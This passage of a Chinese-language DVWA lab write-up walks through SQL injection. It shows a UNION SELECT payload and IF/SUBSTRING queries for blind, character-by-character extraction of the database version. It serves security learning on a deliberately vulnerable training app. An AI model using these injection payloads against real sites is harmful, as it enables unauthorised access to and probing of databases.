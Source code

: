 ```bash
0' UNION SELECT 1,SUBSTRING((select @@version), 1, 20)'
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2078.png)

從這邊我們大概可以推測接下來需要透過 blind injection 來比對 `10.x.x ...` 這類的版本字串

接下來利用 function `@@version` , `SUBSTRING`搭配 `IF` 語法應該就可以猜測版本了

```sql
@@version
```

```sql
SELECT IF(STRCMP('test','test1'),'no','yes');
```

```sql
SELECT SUBSTRING((select @@version), 1, 5) AS ExtractString;
```

確認 IF 能和 SELECT @@VERSION 正常搭配使用

```sql
SELECT IF ((SELECT @@version) = '10.3.32-MariaDB-1:10.3.32+maria~focal', 'pass', 'failed');
```

```sql
SELECT IF (SUBSTRING((SELECT @@version),1,2) = '10', 'pass', 'failed');
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2079.png)
